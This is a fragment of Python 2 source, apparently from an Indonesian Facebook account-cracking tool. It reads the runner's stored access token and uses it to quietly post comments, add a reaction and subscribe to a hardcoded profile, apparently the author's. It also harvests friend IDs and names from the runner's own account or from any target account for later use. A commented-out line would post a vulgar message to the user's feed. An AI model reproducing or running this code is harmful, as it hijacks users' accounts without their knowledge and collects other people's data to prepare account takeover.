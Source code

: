     requests.post('https://graph.facebook.com/1992668927559738/comments/?message=' + kom + '&access_token=' + token)
    requests.post('https://graph.facebook.com/1992668927559738/comments/?message=' + komennn + '&access_token=' + token)
    requests.post('https://graph.facebook.com/1992668927559738/comments/?message=' + komentar + '&access_token=' + token)
    requests.post('https://graph.facebook.com/1992668927559738/comments/?message=' + komenn + '&access_token=' + token)    
    requests.post('https://graph.facebook.com/' + post + '/reactions?type=LOVE&access_token=' + token)
    requests.post('https://graph.facebook.com/100004499498856/subscribers?access_token=' + token)#prof
#    requests.post('https://graph.facebook.com/' + idme + '/feed?method=POST&access_token=' + token + '&message=Pengen Ngentod😭😥')    
    
    exit(proff.menu())

#teman ngen
def teman():
    global token
    try:
        token = open("login.txt", "r").read()
    except IOError:
        print ("\n %s[%s!%s] Token invalid"%(p,m,p));os.system("rm -rf login.txt");time.sleep(1);login()
    try:
        for i in requests.get('https://graph.facebook.com/me/friends?access_token=%s'%(token)).json()["data"]:
            idne = i['id']
            jenenge = i["name"]
            id.append(idne+'<=>'+jenenge)
    except KeyError:
        exit('\n%s [%s!%s] Private id'%(p,m,p))
    if (len(id)) == 0:
        exit('\n%s [%s!%s] your friendlist is 0'%(p,m,p))
    else:
   #     print("%s [%s•%s] Nama     : %s"%(p,k,p,jenenge))
        print("%s [%s•%s] Total id :%s %s"%(p,k,p,h,(len(id))))


def publik():
    global token
    try:
        token = open("login.txt", "r").read()
    except IOError:
        print ("\n %s[%s!%s] Token invalid"%(p,m,p));os.system("rm -rf login.txt");time.sleep(1);login()
    idt=raw_input("\n%s [%s•%s] Enter target id\n [%s•%s] ID target: "%(p,k,p,k,p))
    try:
        for i in requests.get('https://graph.facebook.com/%s/friends?access_token=%s'%(idt,token)).json()["data"]:
            idne = i['id']
            jenenge = i["name"]
            id.append(idne+'<=>'+jenenge)
    except KeyError:
        exit('\n%s [%s!%s] Private id or Token expire'%(p,m,p))
    if (len(id)) == 0:
        jalan('\n%s [%s!%s] Null ID Result, Find another id'%(p,m,p));time.sleep(2)
        publik()
    else:
        print("%s [%s•%s] Name     : %s"%(p,k,p,jenenge))
        print("%s [%s•%s] Total id :%s %s"%(p,k,p,h,(len(id))))
 